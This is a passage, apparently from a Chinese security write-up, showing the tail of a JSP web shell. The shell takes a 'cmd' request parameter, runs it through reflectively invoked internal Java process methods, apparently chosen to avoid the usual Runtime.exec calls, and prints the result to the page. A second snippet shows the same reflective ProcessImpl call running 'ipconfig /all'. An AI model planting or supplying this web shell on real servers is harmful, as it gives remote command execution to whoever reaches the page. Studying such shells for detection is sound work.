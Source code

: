 ```
                toCString(strs[0]), argBlock, args.length,
                null, envc[0], null, std_fds, false
        );

        // 获取命令执行的InputStream
        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);

        return (InputStream) inMethod.invoke(object);
    }

    String inputStreamToString(InputStream in, String charset) throws IOException {
        try {
            if (charset == null) {
                charset = "UTF-8";
            }

            ByteArrayOutputStream out = new ByteArrayOutputStream();
            int                   a   = 0;
            byte[]                b   = new byte[1024];

            while ((a = in.read(b)) != -1) {
                out.write(b, 0, a);
            }

            return new String(out.toByteArray());
        } catch (IOException e) {
            throw e;
        } finally {
            if (in != null)
                in.close();
        }
    }
%>
<%
    String[] str = request.getParameterValues("cmd");

    if (str != null) {
        InputStream in     = start(str);
        String      result = inputStreamToString(in, "UTF-8");
        out.println("<pre>");
        out.println(result);
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```

```
代码案例：
String[] cmds = {"ipconfig","/all"};
        Class clazz = Class.forName("java.lang.ProcessImpl");
        Method method = clazz.getDeclaredMethod("start", new String[]{}.getClass(), Map.class,String.class,ProcessBuilder.Redirect[].class,boolean.class);
        method.setAccessible(true);
        InputStream ins = ((Process) method.invoke(null,cmds,null,".",null,true)).getInputStream();
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size;
        while((size = ins.read(bytes)) > 0)
            bos.write(bytes,0,size);
        System.out.println(bos.toString()); 
        参照：https://www.anquanke.com/post/id/221159#h3-3
```